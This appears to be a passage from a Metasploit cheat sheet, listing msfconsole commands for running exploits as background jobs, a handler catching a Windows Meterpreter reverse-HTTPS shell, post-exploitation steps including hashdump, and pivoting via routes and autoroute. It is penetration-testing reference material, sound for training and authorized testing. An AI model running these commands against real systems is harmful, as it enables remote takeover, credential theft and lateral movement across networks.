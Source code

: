```bash
# Run check if supported
check

# Launch exploit as a background job
set ExitOnSession false
run -j

# Manage sessions
sessions -l
sessions -i 1
background
```

Catch a payload with a handler (no exploit, just listening):
```bash
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST 10.10.14.5
set LPORT 443
set ExitOnSession false
run -j
```

Basic Meterpreter post-exploitation:
```bash
# Inside a Meterpreter session
getuid
sysinfo
ipconfig
run post/windows/gather/enum_logged_on_users
hashdump  # requires privilege
```

Pivoting and routing:
```bash
# From msfconsole (routes used by native modules)
route print
route add 10.10.20.0 255.255.255.0 1  # route via session 1
route print

# Or via Meterpreter autoroute script
sessions -i 1
run autoroute -s 10.10.20.0/24
background
```

Global datastore persistence and logging:
```bash
getg LHOST
setg LHOST 10.10.14.5
save

# Log console to file
spool /tmp/msfconsole.log
spool off
```
